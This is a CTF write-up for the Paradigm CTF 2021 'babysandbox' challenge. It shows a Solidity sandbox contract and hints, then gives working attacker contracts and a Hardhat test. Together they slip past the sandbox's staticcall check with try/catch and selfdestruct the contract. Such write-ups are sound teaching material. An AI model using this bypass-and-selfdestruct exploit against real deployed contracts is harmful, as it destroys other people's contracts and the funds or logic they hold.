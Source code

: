 ```yaml
---
layout: post
title: 'Paradigm CTF 2021: babysandbox'
category: Paradigm CTF 2021
excerpt_separator:  <!--more-->
---
```


### Challenge:
This write-up is for the challenge titled 'babysandbox'.


This challenge is located in the babysandbox/public/ directory. The source code can be found below:

<details>
<summary> BabySandbox.sol:</summary>
<br>
<div markdown="1">
```
pragma solidity 0.7.0;

contract BabySandbox {
    function run(address code) external payable {
        assembly {
            // if we're calling ourselves, perform the privileged delegatecall
            if eq(caller(), address()) {
                switch delegatecall(gas(), code, 0x00, 0x00, 0x00, 0x00)
                    case 0 {
                        returndatacopy(0x00, 0x00, returndatasize())
                        revert(0x00, returndatasize())
                    }
                    case 1 {
                        returndatacopy(0x00, 0x00, returndatasize())
                        return(0x00, returndatasize())
                    }
            }
            
            // ensure enough gas
            if lt(gas(), 0xf000) {
                revert(0x00, 0x00)
            }
            
            // load calldata
            calldatacopy(0x00, 0x00, calldatasize())
            
            // run using staticcall
            // if this fails, then the code is malicious because it tried to change state
            if iszero(staticcall(0x4000, address(), 0, calldatasize(), 0, 0)) {
                revert(0x00, 0x00)
            }
            
            // if we got here, the code wasn't malicious
            // run without staticcall since it's safe
            switch call(0x4000, address(), 0, 0, calldatasize(), 0, 0)
                case 0 {
                    returndatacopy(0x00, 0x00, returndatasize())
                    // revert(0x00, returndatasize())
                }
                case 1 {
                    returndatacopy(0x00, 0x00, returndatasize())
                    return(0x00, returndatasize())
                }
        }
    }
}
```
</div>
</details>

<details>
<summary> Setup.sol:</summary>
<br>
<div markdown="1">
```
pragma solidity 0.7.0;

import "./BabySandbox.sol";

contract Setup {
    BabySandbox public sandbox;
    
    constructor() {
        sandbox = new BabySandbox();
    }
    
    function isSolved() public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(sload(sandbox.slot))
        }
        return size == 0;
    }
}

```
</div>
</details>


The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
There are two key operations within babysandbox that comprise the sandbox. The first, is a staticcall and the second is a regular call. Both calls are made using the existing calldata and therefore make a delegatecall to the contract passed in to the run funtion initially.
</div>
</details>

<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
[Illegal Staticcall Operations](https://eips.ethereum.org/EIPS/eip-214#specification)
</div>
</details>

The solution for this level can be found below:

<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
Putting all of the info from our hints together, we can see that the sandbox is the staticcall operation. It is used as a check to ensure that we do not perform state change operations before the contract goes through and performs an unsafe delegatecall. If we can bypass the staticcall check, then we can make a delegatecall from the context of the sandbox to an arbitrary address. This is useful, because the win condition is for the codesize of the sandbox to be 0. This can be achieved through the `selfdestruct()` function.

Our solution is to simply handle a revert caused by a staticcall in order to return a non-zero value. We can achieve this with a try catch block and a couple of custom contracts: 
</div>
</details>

<details>
<summary> Hardhat Challenge:</summary>
<br>
<div markdown="1">
```
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] babysandbox', function () {

    before(async function () {
        /** SETUP */
        [deployer] = await ethers.getSigners();

        const Setup = await ethers.getContractFactory('SetupBS', deployer);
        this.setup = await Setup.deploy();

        const BabySandbox = await ethers.getContractFactory('BabySandbox', deployer);
        this.babysandbox = await BabySandbox.attach(await this.setup.sandbox());

    });

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */
    });

    after(async function () {
        /** SUCCESS CONDITIONS */
        expect(
            await this.setup.isSolved()
        ).to.equal(true);
    });
});
```
</div>
</details>

<details>
<summary> Contract Solution:</summary>
<br>
<div markdown="1">
```
import "./SetupBS.sol";
pragma solidity 0.7.0;
contract Receiver {
    Spacer private immutable space = new Spacer();
    fallback() external payable {
        // call that performs an sstore
        // should revert and catch on static call 
        try space.magic_eightball(8) { 
            // if it doesn't revert, then call selfdestruct
            // should run this on a regular call
            selfdestruct(address(0)); 

            } catch {
                //if it reverts, then do nothing
            } 
    }
}

contract BSAttacker {

    Setup public setup;
    constructor(address _setup) {
        setup = Setup(_setup);
    }

    function attack() public {
        setup.sandbox().run(address(new Receiver()));
    }
}

contract Spacer {
    uint256 value = 1;
    function magic_eightball(uint256 _value) external {
        assembly {
            sstore(0, _value)
        }

    }
}

```
</div>
</details>

<details>
<summary> HardHat Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */
        const BSAttacker = await ethers.getContractFactory('BSAttacker', deployer);
        this.bsAttacker = await BSAttacker.deploy(this.setup.address);

        await this.bsAttacker.attack();
    });
```
</div>
</details>


